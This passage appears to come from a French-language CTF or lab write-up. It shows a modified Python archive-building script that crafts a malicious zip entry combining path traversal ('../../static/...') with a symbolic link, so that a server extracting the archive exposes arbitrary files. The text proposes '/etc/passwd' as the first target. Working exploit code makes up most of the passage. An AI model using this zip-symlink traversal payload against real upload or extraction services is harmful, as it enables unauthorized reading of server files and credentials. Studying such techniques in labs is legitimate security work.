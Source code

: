 ```python
		if options.path and options.path[-1] != '/':
			options.path += '/'

	zpath = dir*options.depth+options.path+os.path.basename(fname)
	print "Creating " + options.out + " containing " + zpath;	
	ext = os.path.splitext(options.out)[1]
	if os.path.exists(options.out):
		wmode = 'a'
	else:
		wmode = 'w'
	if ext == ".zip" or ext == ".jar":
		import stat
		zipInfo  = zipfile.ZipInfo("../../static/wortyyyyyyystyllle.css")
		zipInfo.create_system = 3
		unix_st_mode = stat.S_IFLNK | stat.S_IRUSR | stat.S_IWUSR | stat.S_IXUSR | stat.S_IRGRP | stat.S_IWGRP | stat.S_IXGRP | stat.S_IROTH | stat.S_IWOTH | stat.S_IXOTH
		zipInfo.external_attr = unix_st_mode << 16 
		zipOut = zipfile.ZipFile(options.out, 'w', compression=zipfile.ZIP_DEFLATED)
		zipOut.writestr(zipInfo, os.readlink("./wortystyle.css"))
		zipOut.close()
		return
	elif ext == ".tar":
		mode = wmode
	elif ext == ".gz" or ext == ".tgz":
		mode = "w:gz"
	elif ext == ".bz2":
		mode = "w:bz2"
	else:
		sys.exit("Could not identify output archive format for " + ext)

	tf = tarfile.open(options.out, mode)
	tf.add(fname, zpath)
	tf.close()



if __name__ == '__main__':
     main()
```

Dans ce code, la ligne "../../static/wortyyyyyyystyllle.css" permet de réaliser la vulnérabilité de path traversal. Dans un second temps, on va ajouter à notre archive zip la valeur du lien symbolique du fichier "wortystyle.css", ce qui va nous permettre d'exploiter la vulnérabilité expliquée ci-dessus. On peut donc tout d'abord tester avec le fameux fichier "/etc/passwd" :
